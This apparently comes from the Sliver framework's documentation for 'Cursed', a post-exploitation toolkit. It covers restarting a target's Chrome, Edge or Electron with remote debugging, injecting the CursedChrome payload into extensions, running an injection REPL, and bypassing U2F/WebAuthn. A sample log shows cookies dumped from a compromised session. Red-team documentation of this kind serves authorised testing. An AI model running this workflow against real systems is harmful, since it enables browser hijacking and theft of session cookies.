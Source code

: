 Cursed is a Chrome/Chromium/Edge/Electron post-exploitation tool kit introduced in Sliver v1.5.25, which integrates with [CursedChrome](https/github.com/mandatoryprogrammer/CursedChrome) (originally [Sliver Overlord](https/github.com/BishopFox/sliver-overlord)). It can automatically find existing Chrome Extensions with the required permissions for [CursedChrome](https/github.com/mandatoryprogrammer/CursedChrome) and remotely inject it onto the target system, or you can start an interactive REPL to inject arbitrary code into any Chrome/Chromium/Edge/Electron context.

Since web requests and other activity originate from the target machine/browser instance, Cursed Chrome and the Cursed tool kit are excellent options for bypassing U2F/Webauthn, hardware attestation, and geo-IP restrictions in web applications.

## Cursed Chrome

The `cursed chrome` command can be used to restart a remote system's Chrome browser with remote debugging enabled. If no payload is specified using `--payload` the command will simply restart Chrome with remote debugging enabled, you can then use `cursed console` to interact with any debug target.

If a payload is specified, the command will restart Chrome with remote debugging, enumerate installed browser extensions, determine if any extension has the required permissions for [CursedChrome](https/github.com/mandatoryprogrammer/CursedChrome), and inject the payload into the extension's execution context.

So a typical workflow looks like:

1. Setup [CursedChrome](https/github.com/mandatoryprogrammer/CursedChrome)
2. Pop Sliver session, or go interactive from a beacon
3. `cursed chrome --payload background.js`
4. Upstream browser to CursedChrome proxy
5. Enjoy!

## Cursed Edge

Works identically to `cursed chrome` but the UI displays "Edge" instead of "Chrome" much like Edge itself.

## Cursed Electron

The `cursed electron` command can be used to restart an Electron application with remote debugging enabled, you can subsequently use `cursed console` to interact with any debug target. Note that some Electron applications disable the remote debugging functionality, which will prevent this feature from working.

## Cursed Console

The `cursed console` command can be used to start an interactive REPL with any cursed process. You will need to start a cursed process using `cursed chrome`, `cursed edge`, or `cursed electron` before using `cursed console`. You can list cursed processes using the `cursed` command. ![cursed](/images/cursed-1.png)

## Cursed Cookies

Starting in v1.5.28 the `cursed cookies` command can be used to dump a remote cursed process' cookies to a local file (newline delimited json), for example:

```
[server] sliver (CHRONIC_GOAT) > cursed chrome

...

[server] sliver (CHRONIC_GOAT) > cursed cookies

? Select a curse: 44199 [Session 56a5cd6f] /Applications/Google Chrome.app/Contents/MacOS/Google Chrome

[*] Successfully dumped 437 cookies
[*] Saved to cookies-20220925182151.json

```
